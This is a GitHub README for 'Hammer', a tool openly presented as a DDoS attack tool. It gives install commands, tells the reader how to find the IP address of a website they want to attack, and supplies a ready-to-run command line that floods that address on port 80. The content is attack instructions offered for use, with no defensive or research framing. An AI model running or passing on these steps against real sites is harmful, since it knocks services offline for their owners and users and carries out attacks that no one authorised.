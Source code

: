 
#### DDos Attack Tool


### Installation


	apt update
	apt upgrade
	apt install python
	apt install git
	apt install dnsutils
	git clone https://github.com/KNI9H7-SH4D0W/Hammer
	cd Hammer

##### Hammer
Hammer need the Name Server of a website which you want to attack...

To get the Name Server...just type

$ nslookup example.com 

Note the IP Address of that Website


### Usage:
>	$ python3 hammer.py -s [ip Address] -p 80 -t 135

>	example:

>	$ python3 hammer.py -s 123.45.67.89 -p 80 -t 135




<h3 align="left">Connect with me:</h3>
<p align="left">
<a href="https://www.facebook.com/Mr.R013X.404"><img title="Facebook" src="https://img.shields.io/badge/Facebook-green?style=for-the-badge&logo=facebook"></a>
<a href="https://t.me/MR_R013X_404"><img title="Telegram" src="https://img.shields.io/badge/Telegram-blue?style=for-the-badge&logo=telegram"></a>

